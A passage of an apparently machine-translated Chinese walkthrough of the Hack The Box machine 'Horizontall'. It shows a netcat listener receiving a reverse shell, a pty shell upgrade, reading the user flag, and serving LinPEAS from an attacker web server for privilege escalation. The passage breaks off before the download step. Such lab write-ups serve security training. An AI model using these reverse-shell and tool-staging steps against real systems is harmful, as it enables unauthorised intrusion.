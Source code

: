 这一次我们抓住了贝壳:

```
┌──(root💀kali)-[~]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.214] from (UNKNOWN) [10.10.11.105] 55312
/bin/sh: 0: can't access tty; job control turned off
```

首先升级到合适的终端:

```
$ python -c 'import pty;pty.spawn("/bin/bash")'
strapi@horizontall:~/myapi$ ^Z
zsh: suspended  nc -nlvp 4444
┌──(root💀kali)-[~]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 4444
strapi@horizontall:~/myapi$
```

# 用户标志

我们是谁？我们能得到用户标志吗:

```
strapi@horizontall:~/myapi$ id
uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)

strapi@horizontall:~/myapi$ ls -l /home
drwxr-xr-x 8 developer developer 4096 Aug  2 12:07 developer

strapi@horizontall:~/myapi$ ls -l /home/developer/
-rw-rw----  1 developer developer 58460 May 26 11:59 composer-setup.php
drwx------ 12 developer developer  4096 May 26 12:21 myproject
-r--r--r--  1 developer developer    33 Sep 30 08:59 user.txt

strapi@horizontall:~/myapi$ cat /home/developer/user.txt 
<HIDDEN>
```

# 权限提升

好吧，那很简单！关于特权升级，让我们把 LinPEAS 拉过来加速一下。如果需要，从[这里](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)获取最新版本。在 Kali 上启动一个 web 服务器来托管它:

```
┌──(root💀kali)-[~/htb/horizontall]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

切换到盒子，拉过来运行:
